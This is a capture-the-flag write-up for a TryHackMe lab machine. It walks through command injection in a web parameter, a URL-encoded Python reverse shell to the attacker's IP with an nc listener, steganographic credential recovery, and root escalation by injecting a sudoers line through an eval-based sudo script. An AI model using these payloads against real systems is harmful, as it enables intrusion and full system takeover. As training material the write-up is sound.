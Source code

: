# TryHackMe: U.A. Superhero Academy – Writeup
[![Solved](https://img.shields.io/badge/Solved%20By-Jull3Hax0r-blue?style=flat-square&logo=gnu-bash)](https://tryhackme.com/p/Jull3)
[![TryHackMe Room](https://img.shields.io/badge/TryHackMe-UA%20Hig%20School-success?style=flat-square&logo=tryhackme)](https://tryhackme.com/room/yueiua)
> **Category:** Shell/Enumeration/Priv-Esc  
> **Difficulty:** Beginner → Intermediate  
> **Target IP:** `MACHINE_IP`  
# 🦸‍♂️ U.A. Superhero Academy 


> **"Join us in the mission to protect the digital world of superheroes!**  
> U.A., the most renowned Superhero Academy, is looking for a superhero to test the security of our new site.  
> Our site is a reflection of our school values, designed by our engineers with incredible Quirks.  
> We have gone to great lengths to create a secure platform that reflects the exceptional education of U.A...."

---

## 🛰️ Target

**IP:** `<MACHINE_IP>`

---

## 🔍 Initial Recon

**Nmap:**
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 11:16 CEST
Nmap scan report for 10.10.16.154
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

---

## 🕵️ Web Enumeration & Exploitation

After enumeration, I found `/assets/index.php` vulnerable to **command injection**!

```
http://<MACHINE_IP>/assets/index.php?cmd=whoami
```
> The response is base64-encoded:  
> `d3d3LWRhdGEK` → `www-data`

---

## 🐚 Getting a Shell

I started a listener:
```
nc -lvnp 4444
```

Then sent a **URL-encoded Python reverse shell**:
```
http://<MACHINE_IP>/assets/index.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.21.132.240%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

*Shell received as* **www-data!**

---

## 🗝️ Loot & Lateral Movement

In `/var/www/Hidden_Content/passphrase.txt` I found:
```
QWxsbWlXXXXXXXXXXXXFdmVyISEhCg==
```
Decoded from base64:  
**XXXXXXXXXXXXXX** (Saved for later...)

In `/var/html/assets/images/` I found suspicious images.  
**oneforall.jpg** was corrupted; changing the extension wasn’t enough.

**Fixed the header** using:
```
printf '\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01' | dd of=oneforall.jpg bs=1 count=12 conv=notrunc
```
<img src="https://jull3.se/extimg/school/oneforall.jpg" alt="oneforall.jpg">

Then extracted hidden data:
```
steghide extract -sf oneforall.jpg
```
As a passphrase I used what was in the file /var/www/Hidden_Content/passphrase.txt

<img src="https://jull3.se/extimg/school/steg.png" alt="steg.png">

Got `creds.txt`:
```
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:
deku:OneXXxXXXXXXXXXXXonXXXX1/A   
```

Now I could **switch user** to `deku`!

<img src="https://jull3.se/extimg/school/deku.png" alt="deku.png">
---

## ⚡ Privilege Escalation

Check sudo privileges:
```
deku@myheroacademia:~$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

Inspected the script:
```bash
#!/bin/bash
echo "Hello, Welcome to the Report Form"
echo "This is a way to report various problems"
echo "   Developed by the Technical Department of U.A."
echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"
    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

---

### 🛡️ Why feedback.sh Allows Privilege Escalation

The `feedback.sh` script is extremely dangerous from a security perspective because it executes as **root** but allows any user (in this case, `deku`) to supply arbitrary feedback text. This input is then passed directly to `eval`, which interprets and runs the input as shell code:

```bash
eval "echo $feedback"
```

Additionally, the script appends the feedback to a log file as root:

```bash
echo "$feedback" >> /var/log/feedback.txt
```

This combination means that if you can bypass or avoid the blacklist (or if your command does not contain any blacklisted characters), you can inject a payload that performs *any action as root*, such as modifying system files, adding users, or changing sudoers.

**In this challenge, I simply injected:**
```
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```
This line, when executed as root, grants `deku` passwordless sudo privileges for all commands.

**Result:**  
Afterwards, I could run `sudo /bin/bash` as `deku` and instantly become root.

**This is a textbook example of the dangers of using `eval` with user input and running scripts with elevated privileges.** Never trust user input, especially as root!

---

After entering the payload:
```
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```

I could then do:
```
sudo /bin/bash
```
Boom – **root shell**!

<img src="https://jull3.se/extimg/school/root.png" alt="root.png">

---

## 🏆 Root Flag

```
cat /root/root.txt
```
```
THM{XXXXXXXXXXXXXXXXX}
```

---

*Mission complete! UA is now more secure, and I am the Number 1 Hero!*

(Insert screenshot links here if you want!)

---
